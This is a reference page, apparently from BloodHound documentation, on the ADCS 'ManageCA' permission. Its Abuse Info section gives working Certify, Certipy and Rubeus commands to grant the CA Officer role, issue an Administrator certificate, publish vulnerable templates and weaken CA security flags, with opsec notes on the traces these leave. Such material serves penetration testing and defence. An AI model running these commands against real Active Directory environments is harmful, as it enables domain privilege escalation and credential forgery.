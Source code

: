 ```yaml
---
title: ManageCA
description: The principal has the "Manage CA", also known as "CA Administrator", permission on the Enterprise CA.
---
```


<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>

This permission allows the principal to configure the CA to allow subject alternate names, publish certificate templates, grant "Manage Certificates", grant enrollment rights, change certain CA flags, and more.

CA Administrators can perform the following actions that may enable an ADCS escalation:

1. Grant CA Officer (ManageCertificates) and approve a denied certificate request
2. Publish a certificate template (e.g. one that enables an ESC1 condition)
3. Grant Enroll on the enterprise CA
4. Enable the ESC6 CA flag `EDITF_ATTRIBUTESUBJECTALTNAME2`
5. Disable the ESC11 enforcement flag `IF_ENFORCEENCRYPTICERTREQUEST` (weakens RPC enrollment security; enables relay)
6. Disable the security extension on the enterprise CA (ESC16)
7. Abuse a CRL Distribution Point (CDP) to coerce and relay the CA server
8. Abuse a CDP to obtain RCE on the CA server (e.g., via web shell)

## Abuse Info

This relationship alone is not automatically a privilege escalation; however, it frequently enables one of several ADCS escalation paths when combined with template / CA configuration weaknesses.


### 1. Grant CA Officer and Approve a Denied Request

Role separation (when enabled) prevents a single principal from holding both ManageCA and ManageCertificates, but this configuration is rare.

**Windows**

Grant the CA Officer (ManageCertificates) role with Certify (v2.0):
```cmd
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --officer S-1-5-21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX-12345
```
Request an ESC1 (or other high-value) certificate you don't have enrollment rights for:
```cmd
Certify.exe request --ca ca01.corp.local\CORP-CA01-CA --template CustomUser --upn Administrator --sid S-1-5-21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX-500
```
Approve the denied certificate request by ID:
```cmd
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --issue-id 1337
```
Download the certificate (captures private key in Base64 PFX):
```cmd
Certify.exe request-download --ca ca01.corp.local\CORP-CA01-CA --id 1337 --private-key <Base64PrivateKey>
```
Authenticate using the certificate (example with Rubeus):
```cmd
Rubeus.exe asktgt /user:Administrator /certificate:<Base64PFX> /ptt
```

**Linux**
Grant CA Officer (ManageCertificates) role:
```bash
certipy ca -ca 'corp-DC-CA' -add-officer john -username john@corp.local -password 'Passw0rd'
```
Issue (approve) a previously denied request:
```bash
certipy ca -ca 'corp-DC-CA' -issue-request 785 -username john@corp.local -password 'Passw0rd'
```
Retrieve the certificate:
```bash
certipy req -username john@corp.local -password 'Passw0rd' -ca corp-DC-CA -target ca.corp.local -retrieve 785
```

### 2. Publish a Certificate Template

**Windows**

Publish/unpublish a template (e.g. enabling ESC1):
```cmd
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --template MyTemplate
```

**Linux**

Publish a template:
```bash
certipy ca -ca 'corp-DC-CA' -enable-template TemplateCN -username john@corp.local -password 'Passw0rd'
```

See the ADCS ESC1 abuse documentation for subsequent exploitation steps: [ADCSESC1](/resources/edges/adcs-esc1)

### 3. Grant Enroll on Enterprise CA

**Windows**

Grant or revoke CA enrollment rights (required for certificate issuance):

```cmd
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --enroll S-1-5-21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX-12345
```

### 4. Enable ESC6 Flag `EDITF_ATTRIBUTESUBJECTALTNAME2`
**Windows**

Toggle the flag:
```cmd
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --esc6
```
Restart of the CA service (requires local admin) is needed for the change to apply.
See the ADCS ESC6 abuse documentation for subsequent exploitation steps: [ADCSESC6a](/resources/edges/adcs-esc6a)

### 5. Disable ESC11 Flag `IF_ENFORCEENCRYPTICERTREQUEST`
**Windows**

Toggle the flag:
```cmd
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --esc11-req
```
Restart of the CA service required.

### 6. Disable Security Extension (ESC16)
**Windows**

Set CA settings for ESC16:
```cmd
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --esc16
```
Restart of the CA service required.

### 7 & 8. Abuse CDP for Coercion / RCE

Techniques to coerce & relay or achieve RCE via CDP manipulation are described here: [AD CS: from ManageCA to RCE](https://www.tarlogic.com/blog/ad-cs-manageca-rce/)


## Opsec Considerations

Abusing these capabilities commonly results in certificate issuance; issued certificates (and sometimes pending requests) leave artifacts on the CA host. Enabling/disabling flags or publishing templates may generate observable administrative events and typically requires a CA service restart for certain changes (ESC6, ESC11, ESC16) to take effect.

## Edge Schema

Source: [User](/resources/nodes/user), [Group](/resources/nodes/group), [Computer](/resources/nodes/computer)   
Destination: [EnterpriseCA](/resources/nodes/enterprise-ca)   
Traversable: **Yes**  

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* [T1649: Steal or Forge Authentication Certificates](https://attack.mitre.org/techniques/T1649/)

### Abuse and Opsec references

* [Certified Pre-Owned](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
* [Certify wiki - Escalation Techniques - ManageCA](https://github.com/GhostPack/Certify/wiki/4-%E2%80%90-Escalation-Techniques#manageca)
* [ESC7: Dangerous Permissions on CA (Certipy wiki)](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc7-dangerous-permissions-on-ca)
* [AD CS: from ManageCA to RCE](https://www.tarlogic.com/blog/ad-cs-manageca-rce/)

